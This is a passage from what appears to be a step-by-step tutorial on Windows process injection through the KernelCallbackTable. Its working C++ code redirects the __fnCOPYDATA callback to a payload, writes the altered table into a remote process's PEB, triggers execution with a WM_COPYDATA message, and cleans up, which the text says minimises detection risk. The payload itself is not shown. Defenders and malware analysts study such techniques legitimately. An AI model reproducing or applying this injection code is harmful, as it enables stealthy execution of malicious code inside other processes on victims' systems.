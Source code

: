 **Detailed Explanation**  
- `ReadProcessMemory` retrieves the Kernel Callback Table structure. The `__fnCOPYDATA` field is redirected to point to the payload, enabling its execution on `WM_COPYDATA` message receipt.

### Step 10 - Updating the PEB with the Modified Table

The altered Kernel Callback Table is written to the PEB, ensuring that Windows references this modified version.

```cpp
if ( !WriteProcessMemory( hProcess, ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ), &clonedcKCT, sizeof( PVOID ), &bytesRead ) ) {
    printf( "[-] Failed to update PEB KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] PEB KernelCallbackTable updated successfully!\n" );
```

**Detailed Explanation**  
- `WriteProcessMemory` writes the modified table to the PEB, making the altered callback structure active, ready to trigger the payload.

### Step 11 - Triggering the Payload

The code sends a `WM_COPYDATA` message, which activates the `__fnCOPYDATA` function in the Kernel Callback Table, executing the payload.

```cpp
COPYDATASTRUCT cds;
WCHAR msg[] = L"trigger";
cds.dwData = 1;
cds.cbData = ( lstrlenW( msg ) + 1 ) * sizeof( WCHAR );
cds.lpData = msg;

LRESULT result = SendMessage( hWindow, WM_COPYDATA, ( WPARAM ) hWindow, ( LPARAM ) &cds );
if ( result == 0 && GetLastError() != 0 ) {
    printf( "[-] Failed to send message to trigger payload. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Payload triggered!\n" );
```

### Step 12 - Cleaning Up

Finally, memory allocations are released and handles closed, ensuring a clean exit and minimizing detection risks.

```cpp
VirtualFreeEx( hProcess, remotebuf, 0, MEM_RELEASE );
VirtualFreeEx( hProcess, clonedcKCT, 0, MEM_RELEASE );
CloseHandle( hProcess );
CloseHandle( pi.hProcess );
CloseHandle( pi.hThread );
printf( "[+] Cleanup completed successfully.\n" );
```
